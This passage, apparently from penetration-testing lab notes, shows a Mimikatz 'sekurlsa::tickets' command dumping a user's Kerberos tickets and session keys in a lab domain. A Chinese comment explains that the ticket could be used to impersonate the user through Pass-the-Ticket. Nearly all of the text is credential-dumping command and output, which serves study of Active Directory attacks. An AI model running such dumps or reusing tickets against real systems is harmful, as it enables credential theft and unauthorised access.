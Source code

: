 ```
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 656588 (00000000:000a04cc)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/13/2022 2:43:31 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105

         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:59:47 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : cifs ; web04.corp.com ; @ CORP.COM
           Target Name  (02) : cifs ; web04.corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             38dba17553c8a894c79042fe7265a00e36e7370b99505b8da326ff9b12aaf9c7
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]
         [00000001]
           Start/End/MaxRenew: 9/13/2022 2:43:56 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : LDAP ; DC1.corp.com ; corp.com ; @ CORP.COM
           Target Name  (02) : LDAP ; DC1.corp.com ; corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM ( CORP.COM )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             c44762f3b4755f351269f6f98a35c06115a53692df268dead22bc9f06b6b0ce5
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:43:56 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM ( CORP.COM )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             bf25fbd514710a98abaccdf026b5ad14730dd2a170bca9ded7db3fd3b853892a
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
...
```
> 表示 jeff 在 web04.corp.com 伺服器上有一張存取權限的 Kerberos 票據。\
透過這張 ticket ，攻擊者可以 冒充 jeff，進行 SMB 存取或其他操作(如 Pass-The-Ticket)
